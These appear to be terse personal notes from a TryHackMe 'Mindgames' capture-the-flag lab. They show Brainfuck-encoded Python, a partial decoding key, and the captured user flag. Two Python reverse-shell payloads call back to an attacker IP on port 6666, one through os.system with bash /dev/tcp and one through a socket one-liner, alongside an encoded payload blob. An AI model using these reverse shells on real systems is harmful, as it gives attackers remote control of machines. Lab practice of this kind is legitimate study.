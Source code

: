 ### Mindgames ###

export IP=10.10.87.219

+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.+++<--.
print("Hello world");
O/P:Hello, World

import os
os.system("nc -r ")

--[----->+<]>--.+.+.     +++[->++<]>.[-->+<]>+++++.[--->++<]>--.++[++>---<]>+.-[-->+++<]>--.>++++++++++.
[->+++<]>++....-[--->++<]>-.---.    +[----->+<]>+.-[->+++++<]>-.--[->++<]>.+.+[-->+<]>+.[-->+++<]>+.+++++++++.>++++++++++.
[->+++<]>++........---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[->+++++<]>-.[-->+++<]>+.>++++++++++.
[->+++<]>++....---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[->+++++<]>-.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.++++.--------.++.-[--->+++++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.+++++.---------.>++++++++++.
..[--->+++++<]>.+++++++++.+++.[-->+++++<]>+++.-[--->++<]>-.[--->+<]>---.-[--->++<]>-.+++++.-[->+++++<]>-.---[----->++<]>.+++[->+++<]>++.+++++++++++++.-------.--.--[->+++<]>-.+++++++++.-.-------.-[-->+++<]>--.>++++++++++.
[->+++<]>++....[-->+++++++<]>.++.---------.+++++.++++++.+[--->+<]>+.-----[->++<]>.[-->+<]>+++++.-----[->+++<]>.[----->++<]>-..>++++++++++.

def F(n):


>++++++++++. = ;
-[--->+<]>+ = "
+++++++ = )
[--->+<]>--. = space
[-->+<]>+++++. = (
[--->++<]>--. = n
. = separator of each letter

+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.----+++.



# ABort Abort Abort!!!!!!!!!!!!

encoding name is brainfuck......

import os
os.system("bash -i >& /dev/tcp/10.11.18.102/6666 0>&1")

>++++++++++.


import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.18.102",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

+++++++++++++++[>++>+++>++++>+++++>++++++>+++++++>++++++++<<<<<<<-]+++++++++++++++>>>>>>.++++.+++.-.+++.++.<<<<<++.>>>>>-.----.<+++++++++.>----.<++.>>----.<<<<<-.>>>>>-.++.<<---.>+++++.++.---.<+.++.>>--..<<<<<.>>>>.>.<<<<-.>>>>.<<<<++.>>>>.<.<--.>----.<++.>>+.<<<<<++.>>>>>-.<++++.<--.>----.<++.>>+.<<<<<------.>>>>>-.<++++.<--.>----.<++.>>+.<<<<<++++++.>++++.+++++.>>------.<--.+++++.<-.>++++++.<<--.>>>>>-.<++++.<++++.>----.<++.>>+.<<<<<++.>>-.----.<--.>----.>------.<++++++++.+.--.<++.----.>-----.<<-----.>------.>>>>-.<<<<<+++++.>>>++++.>++++.-..<++.--.>>+.<<<<<------..<++.>+++++++++.-.--.+++..---.+++.>---.<---.+++.-.++.<.>------.>--....<---..>+++++.>>>+.>-.<<<<<+++++.>>>+.>>++.<+.<<<<++++.<++++++.>>>>>>--.<<<<<----.>>>++.+++.+++.-------.>--.+.<<<<<.+.>--.++++.<.>>.<<---------.>>>>>.>.<<<<<--.>>>-.>>++.<+.<<<<++++.<++++++++.>>>>>>--.<<<<<----.>>>++.+++.+++.-------.>--.+.<<<<<.+.>--.+++++.<.>>.<<---------.>>>>>.>.<<<<<---.>>>-.>>++.<+.<<<<++++.<++++++++.>>>>>>--.<<<<<----.>>>++.+++.+++.-------.>--.+.<<<<<.+.>--.++++++.<.>>.>>>+.<<<++.>>>>.++.<<---.>.++.---.<+.++.>>--..<<<<<----.>>>--.--.>---..<<<<<-.>>>>------.<<<<------.>+.>>>+++++++.>---.+++++.<<<<.>>>>>.<<++++++.<<<<.>---.<.>+.>>>+.<<<<.>>>>------------.<<<----.>--.


# User.txt:
thm{411f7d38247ff441ce4e134b459b6268}
